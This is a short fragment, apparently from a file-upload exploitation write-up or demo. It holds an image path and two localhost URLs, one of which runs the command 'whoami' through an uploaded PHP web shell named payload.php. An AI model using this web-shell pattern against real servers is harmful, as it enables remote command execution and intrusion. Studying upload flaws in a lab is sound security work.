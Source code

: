 

http://localhost:8080/uploads/payload.php?cmd=%22whoami%22

http://localhost:8080/uploads/IMG_8486.jpg

